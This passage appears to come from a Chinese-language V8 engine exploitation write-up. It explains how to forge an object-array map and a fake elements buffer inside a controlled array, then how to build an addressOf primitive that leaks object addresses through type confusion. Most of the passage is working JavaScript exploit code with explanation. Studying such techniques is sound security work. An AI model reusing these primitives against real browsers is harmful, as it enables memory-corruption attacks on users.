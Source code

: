 其中值得一提的是，map 的伪造过程：

```javascript
    demo_ele_addr=0x82c2120;
    fake_buf=demo_ele_addr+0x200+8;
    
    array_map0 = itof(0x1604040408002119n);
    obj_array_map_value=itof(0x0a0007ff09000834n);
    obj_array_map_addr=demo_ele_addr+0x150;

    demo_array[0x150/8]=array_map0;
    demo_array[0x158/8]=obj_array_map_value;
    
    demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
    demo_array[0x008/8]=u2d(fake_buf+1,0x2);
```

我们的伪造目标地址是 \&demo\_array\[0] ，上面的代码和 C 的等价伪代码为：

```
 *(demo_array) = obj_array_map_addr+1;
 *(demo_array+4) = 0;
 *(demo_array+8) = fake_buf+1;
 *(demo_array+12) = 2;

 *(obj_array_map_addr) = 0x0a0007ff09000834;
```

这种操作是合法的，我们可以发现， obj\_array\_map\_addr 的值是已知的，其值是笔者随意声明一个对象数组后在其 map 地址处实际拷贝出来的值，也就是说，map 值本身是固定的，和地址无关的，只需要让指针指向该值，就会正常将其识别为对应的类型

> map 结构体当然是地址有关的，但用以区分类型的值却和地址无关，而在对变量进行取值或写入时，只需要读取 map 值而不需要其他的结构体成员。

而我们令其 elements 指针指向 fake\_buf ，length 值为 2，但又有些怪异的是，我们不需要伪造 elements 结构体的 map

结论是，向这个伪造的 elements 中写入数据时，不需要读取其 map 结构体，只需要上层的对象类型的写入或读取的参数相应即可

### addressOf

接下来就是尝试如何去构造这个函数：

```javascript
    function addressOf(target_var)
    {
       demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
       evil[0]=target_var;
       demo_array[0x000/8]=u2d(double_array_map_addr+1,0);
       let addr=ftoi(evil[0])-1n;
       console.log("[*] addr: 0x"+hex(addr));
       demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
       return addr;
    }
```

首先，我们令 evil 的结构体的 map 为 obj array ，使其成为对象数组，将其放入以后，再转回浮点数数组后即可读取，同时在最后一步，我们又将其转回了对象类型，这并没有特殊的意义，单纯是个人习惯
